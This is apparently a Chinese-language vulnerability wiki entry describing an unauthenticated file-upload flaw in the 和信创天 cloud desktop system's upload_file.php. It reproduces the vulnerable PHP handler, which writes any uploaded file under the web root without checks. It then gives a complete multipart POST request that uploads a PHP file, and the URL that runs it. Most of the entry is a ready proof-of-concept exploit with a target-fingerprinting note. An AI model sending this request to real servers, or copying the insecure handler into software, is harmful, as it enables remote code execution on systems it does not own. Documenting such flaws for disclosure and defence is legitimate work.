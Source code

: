 # 和信创天云桌面系统 upload_file.php 远程命令执行漏洞

## 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

<a-checkbox checked>和信创天云桌面系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>和信下一代云桌面VENGD</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337842.png)



存在漏洞的文件为 `upload_file.php`

```python
<?php
function writeLog($msg){
    $logFile = date('Y-m-d').'.txt';
    $msg = date('Y-m-d H:i:s').' >>> '.$msg."\r\n";
    file_put_contents($logFile,$msg,FILE_APPEND );
}
//require("vesystem/msg_define/session_lib.php");
if ($_FILES["file"]["error"] > 0)
{
  //  echo "Return Code: " . $_FILES["file"]["error"] . "<br />";
}
else
{
    echo "_Requst:<br>";
        /*     foreach($_REQUEST as $name => $value)
            {
                 $name."=".$value."<br>";
            }
            //echo "_FILES:<br>";
            foreach($_FILES as $array_name=>$array_value)
            {    
            $array_name."=".$array_value."<br>";
                foreach($_FILES[$array_name] as $name => $value)
                {
                $name."=".$value."<br>";
                }
            } */
        $l = $_GET['l'];
        
        //拆分字符串按“/”分割字符
        $arrpath = explode("/",$l);
        $m = count($arrpath);
        
        
        $file_e = "";
        if ($m>1){
            for($i=0;$i<$m;$i++){
                $file_e .= $arrpath[$i];
                
                
                if(!file_exists($file_e)){
                    mkdir($file_e, 0777);
                }
                $file_e .= "/";
            }
            
        }else{
            
            //判断文件夹是否存在 ，不存在就新建个
            
            
            if(!file_exists($l)){
                mkdir("$l", 0777);
            }
        }
        
        
        
        $target_path=$_SERVER["DOCUMENT_ROOT"]."/Upload/".$l."/".$_FILES["file"]["name"];
       
       
        if (file_exists($target_path))
        {
            unlink($target_path);
        }
        
        
        $a = 'old_file='.$_FILES["file"]["tmp_name"];
        
        writeLog($a);
        writeLog('new_file='.$target_path);
    $target_path = str_replace ( '//', '/', $target_path );
    
    writeLog('new_file2='.$target_path);
    
   $varerror =  move_uploaded_file($_FILES["file"]["tmp_name"],$target_path);
    
    writeLog('$varerror='.$varerror);
}
?>
```



发送请求包如下

```plain
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xxx.xxx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 182

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```



访问

```plain
http://xxx.xx.xxx.xxx/Upload/1/test.php
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337610.png)